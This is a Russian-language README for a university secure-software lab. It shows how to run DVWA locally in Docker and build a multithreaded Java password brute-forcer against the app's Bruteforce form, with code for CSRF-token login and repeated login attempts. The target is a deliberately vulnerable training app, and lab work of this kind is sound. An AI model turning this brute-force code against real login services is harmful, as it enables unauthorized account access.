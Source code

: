 # SDLC_Lab_3
Практика №3 по "Разработке безопасного программного обеспечения"

1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)

  Для перебора паролей для начала необходимо размернуть приложение DVWA. Развернем его в Docker, для этого необходимо перейти в папку /DVWA-master и выполнить команду `docker compose up` в терминале. \
  ![Поднимаем DVWA](imgs/dvwa_up.png) \
  Перейдем по адресу `localhost:4280` в браузере. \
  ![Переходим на localhost:4280](imgs/dvwa_visit.png) \
  Перейдем на форму, которая является переборщика. \
  ![Переходим на форму](imgs/dvwa_form_visit.png) \
  Выполним успешный ввод данных. \
  ![Успешный ввод](imgs/dvwa_form_success.png) \
  Обратим внимание на сообщение, которое выводится при успешном вводе, а также на то, в какой форме производится запрос.\
  ![Сообщение об успехе](imgs/dvwa_success_message.png) ![Форма запроса](imgs/dvwa_query_form.png) \
  Выполним неудачный ввод данных и так же обратим внивание на сообщение. \
  ![Неудачный ввод](imgs/dvwa_form_fail.png) ![Сообщение о провале](imgs/dvwa_fail_message.png) \
  На основе полученной информации разработаем переборщик паролей на языке программирования Java. Программа будет работать в многопоточном режиме. Для перехода к форме, которую необходимо взломать необходимо авторизоваться на сайте. Напишем для этого функцию.
  ```Java
        private void loginToDVWA() throws IOException {
            String loginPageUrl = "http://localhost:4280/login.php";
            String username = "admin";
            String password = "password";
            String csrfToken;

            Request loginPageRequest = new Request.Builder()
                .url(loginPageUrl)
                .get().build();

            try (Response response = client.newCall(loginPageRequest).execute()) {
                assert response.body() != null;
                String html = response.body().string();
                String substringForBeginInd = "name='user_token' value='";
                int begInd = html.indexOf(substringForBeginInd);
                int endInd = html.indexOf("' />\r\n\r\n\t</form>");
                csrfToken = html.substring(begInd + substringForBeginInd.length(), endInd);
            }

            RequestBody formBody = new FormBody.Builder()
                .add("username", username)
                .add("password",  password)
                .add("Login", "Login")
                .add("user_token", csrfToken)
                .build();
            Request loginRequest = new Request.Builder()
                .url(loginPageUrl)
                .post(formBody)
                .build();

            try (Response response = client.newCall(loginRequest).execute()) {
                assert response.body() != null;
            }
        }
```
  Алгоритм программы будет выполнять попытку аутентификации по адресу, который был обнаружен раннее `http://localhost:4280/vulnerabilities/brute/?username=admin&password=%s&Login=Login`. Переборщик анализирует html, который приходит в ответ и ищет сообщение об успешном входе или провале. Функция для попытки аутентификации выглядит следующим образом:
  ```Java
private boolean makeAttemptToLogin(String password) throws IOException {
            String loginPage = BASE_URL + "/brute/?username=admin&password=%s&Login=Login"
                .formatted(password);

            Request loginAttempt = new Request.Builder()
                .url(loginPage)
                .get()
                .build();

            try (Response response = client.newCall(loginAttempt).execute()) {
                assert response.body() != null;
                String html = response.body().string();
                if (html.contains("Username and/or password incorrect.")) {
                    return false;
                } else if (html.contains("Welcome to the password protected area admin")) {
                    return true;
                } else {
                    Thread.sleep(2000);
                    makeAttemptToLogin(password);
                    return false;
                }
            } catch (InterruptedException e) {
                throw new RuntimeException(e);
            }
        }
```
Пароли извлекаются из файла и поочереди используются в запросах. Запустим переборщик. \
![Запуск перебора DVWA](imgs/dvwa_brute_start.png) \
Таким образом переборщик справился за 21 секунду. \
![Финиш перебора DVWA](imgs/dvwa_brute_finish.png) \
  
  
